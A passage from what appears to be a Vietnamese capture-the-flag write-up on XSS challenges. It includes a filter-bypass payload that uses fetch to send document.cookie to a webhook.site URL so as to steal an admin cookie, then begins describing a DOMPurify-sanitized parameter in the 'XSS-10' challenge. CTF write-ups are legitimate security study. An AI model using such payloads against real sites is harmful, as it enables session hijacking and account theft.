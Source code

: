 Chặn `http://` và `https://`

Payload lấy cookie admin: 
`1'?fetch('//webhook.site/3bef0358-33db-4a90-951a-6d0bedb6944f?cmd='.concat(document.cookie)):'`

## XSS-10: hamayan

Bài này ngồi mò trong vô vọng, cuối cùng lên bú writeup :)))

![image.png](Images/image%2033.png)

![image.png](Images/image%2034.png)

Tham số `message` từ URL được làm sạch bằng **DOMPurify**, rồi truyền vào template `index.ejs` qua biến `sanitized`.

![image.png](Images/image%2035.png)
